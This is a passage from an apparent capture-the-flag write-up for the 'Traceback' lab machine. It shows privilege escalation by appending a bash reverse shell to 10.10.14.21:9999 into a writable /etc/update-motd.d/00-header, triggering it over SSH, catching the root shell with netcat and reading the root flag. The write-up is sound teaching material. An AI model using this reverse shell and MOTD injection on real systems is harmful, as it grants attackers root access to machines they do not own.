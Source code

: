 #### 4.1. Looking for files owned by `sysadmin`

```
sysadmin@traceback:~$ find / -group sysadmin -type f 2>/dev/null | grep -vE '/proc/|/home/'
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
```

Note: we can modify the welcome message, displayed when we SSH into the box.

```
sysadmin@traceback:~$ echo "/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.21/9999 0>&1'" >> /etc/update-motd.d/00-header
```

#### 4.2. Triggering the reverse shell

```
# ssh -i /tmp/webadmin.key webadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

...[SHOULD GET STUCK HERE AND FOR REVERSE SHELL]...
```


#### 4.3. Root flag

```
# nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.181] 41446
bash: cannot set terminal process group (16587): Inappropriate ioctl for device
bash: no job control in this shell
...
root@traceback:/root# cat root.txt
cat root.txt
b3844e48b621df1485e4f96fcbd1ebf8
```
